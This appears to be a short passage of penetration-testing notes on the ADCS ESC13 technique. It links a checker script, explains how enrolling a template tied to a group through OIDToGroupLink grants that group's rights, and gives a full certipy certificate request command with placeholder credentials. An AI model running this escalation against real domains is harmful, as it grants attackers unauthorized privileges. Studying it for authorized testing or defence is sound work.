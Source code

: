 ### Use Check-ADCSESC13.ps1 to find OIDToGroupLink: https://github.com/JonasBK/Powershell/blob/master/Check-ADCSESC13.ps1

## Exploitation

### Find a user permission it can use certipy find or Certify.exe find /showAllPermissions.

### If John have have permission to enroll VulnerableTemplate, the user can inherit the privileges of VulnerableGroup group.

### All it need to do just specify the template, it will get a certificate with OIDToGroupLink rights.

 - certipy req -u "John@domain.local" -p "password" -dc-ip 192.168.100.100 -target "DC01.domain.local" -ca 'DC01-CA' -template 'VulnerableTemplate'

